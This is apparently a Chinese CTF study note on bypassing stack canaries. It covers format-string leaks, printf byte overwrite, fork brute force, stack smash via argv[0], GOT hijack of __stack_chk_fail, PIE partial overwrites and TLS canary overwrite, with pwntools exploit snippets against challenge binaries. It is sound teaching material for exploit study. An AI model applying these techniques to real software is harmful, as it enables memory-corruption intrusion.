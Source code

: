 参考:
[canary各种姿势](https://xz.aliyun.com/t/4657?page=5&time__1311=eqGxn7emqxRQDCDlrmq0%3DwK0I%3D7KG8tKbeD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ft%2F4657%3Fpage%3D5#toc-1)
[题目附件](https://n0zom1z0.lanzouj.com/iRO1O1uo5gif)


canary是一个很重要的点 各种题目都可以开canary 相关技巧都要会

# 格式化字符串漏洞泄露canary
最常见的题型
格式化字符串漏洞看偏移:
![img](canary/images/image.png)

如果没限制长度可以 `AAAAAAAA -%08x -%08x ...` 来数
有限制长度就用 `%8$p` 这种来试

得到输入的offset gdb调试看看canary的位置即可
![img](canary/images/image-1.png)

这样就可以 `%8$p` 泄露canary


# 关于栈溢出+printf打印泄露canary
要注意 64位canary的低字节通常为`\x00`
所以要覆盖低字节绕过**printf的截断**输出更改末字节后的canary
而我们要写的是正确的canary 所以后面再改回来(低字节改为`\x00`)即可

但有些题后面是用strcpy栈溢出 那么就不能直接写正确的canary(**`\x00`会被strcpy截断** ...)
就利用输入到canary的首地址 然后sendline(送一个换行符等价于`\x00`)即可把canary还原

[典型例题](https://buuoj.cn/challenges#[DASCTF%20X%20CBCTF%202023%EF%BD%9C%E6%97%A0%E7%95%8F%E8%80%85%E5%85%88%E8%A1%8C]GuestBook)
[My_WP](https://www.cnblogs.com/NozoMizo/articles/18114175)

# fork进程爆破canary
fork进程特征具有canary不变性(父子所有内存段都相同) 对canary的每一位循环爆破
结合canary的低byte为`\x00` 爆破剩余三个字节
![img](canary/images/image-2.png)

结合题目看
![img](canary/images/image-3.png)

然后fun函数里面有栈溢出 可溢出5个字节
而且程序有后门 所以只要绕过canary就可以getshell
但本地调试看不了canary???
回到题目 由于是fork 线程 已知canary末字节`\x00`
所以我们可以逐字节爆破 爆破方法就是逐步溢出
第一次溢出byte1 第二次溢出byte2...
由v2是`[ebp-C]`知道canary就在`[ebp-C]`处
exp就是上面的图 (然而本地没打通233...)
等到碰到远程的fork canary的题再来总结


# stack smash
花式栈溢出...
利用条件 **glibc-2.31之前**
## 原理
在程序加了 canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。
而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。
这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，
程序就会执行 __stack_chk_fail 函数来打印`argv[0]`指针所指向的字符串，正常情况下，这个指针指向了程序名:
代码：
```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>"); // <= here
}
```

如果我们能利用栈溢出覆盖`argv[0]`为我们想要输出字符串的地址
在`__fortify_fail`函数就会输出信息

glibc-2.31之后:
```c
#include <stdio.h>

void
__attribute__ ((noreturn))
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (do_abort, "*** %s ***: terminated\n", msg); // <= no __libc_argv[0]
}
libc_hidden_def (__fortify_fail)
```


[典型例题](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stacksmashes/32c3-CTF-readme)
[wiki-wp](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#32c3-ctf-readme)

题目分析:
开了canary和fortify 而且printf用的`_printf_chk` 所以只能打ssp
想要打印flag
![img](canary/images/image-4.png)
但是程序对这处内存执行了memset
这里学到一个小trick
**ELF重映射**
:当可执行文件足够小时 不同区段可能进行多次映射 也就是一些区段有副本
我们找其他有flag的地方
```
pwndbg> search PCTF
Searching for value: 'PCTF'
pwn             0x400d20 push rax /* "PCTF{Here's the flag on server}" */
pwn             0x600d20 "PCTF{Here's the flag on server}"
```
找到0x400d20
那就往后溢出(也不能溢出多了调一调就行)全部覆盖为0x400d20
```py
flag = 0x400d20
p.recvuntil("What's your name? ")
payload = p64(flag)*1000
p.sendline(payload)
p.recv()
p.sendline(payload)
```

然而因为本地libc早就改了机制 劫持不了... 又没打通

# 劫持`stack_chk_fail`函数
劫持`stack_chk_fail`函数 控制函数流程
在刚开始未栈溢出时 先把`stack_chk_fail`的got表修改为后门函数地址
然后栈溢出**故意制造**canary错误调用`stack_chk_fail` 从而执行后门函数

[题目](https://n0zom1z0.lanzouj.com/iRO1O1uo5gif)(题目4 bin3)

题目分析:
有格式化字符串漏洞 并且给了后门函数 开了canary 所以可以修改`stack_chk_fail`的got表 然后触发chk_fail来getshell
然后这道题system又是对齐了的...
```py
offset = 6
backdoor = 0x40084E
stk_chk_fail_got = 0x601020

payload = fmtstr_payload(offset,{stk_chk_fail_got:backdoor}) + b'a'*1000
p.recvuntil("It's easy to PWN\n")
p.send(payload)
```


# 开了pie的canary
以64位printf打印为例
canry低位`\x00`是截断符 我们栈溢出把低位覆盖 让printf带出来
再把低位替换回`\x00`
如果开了pie 找找低多少位可以不用改 然后爆破覆盖一下高位的就能控制程序流了

题目分析:
PIE+NX+canary
![img](canary/images/image-5.png)

第一次输入可以覆盖canary低字节为非`\x00`从而打印出canary
第二次输入就可以栈溢出
这里system又要栈对齐...
```py
payload = b'a'*(0x30-0x8) + b'b'
p.recvuntil("Input your Name:\n")
p.send(payload)
p.recvuntil(b'b')
canary = u64(b'\x00' + p.recv()[:7])
success(hex((canary)))

backdoor = 0xA42

payload = b'a'*0x28 + p64(canary) + b'b'*8 + p16(backdoor) # not p64(backdoor) 因为开了pie 我们只覆盖低4字节
p.send(payload)
```


# TLS线程canary
利用ptrace特性 线程中的**canary存储**的地方和TLS与函数的栈很近 所以可以栈上往后覆盖**修改canary**
改了canary就能绕过了
[HGAME2022 WEEK1](https://www.nssctf.cn/problem/1872)
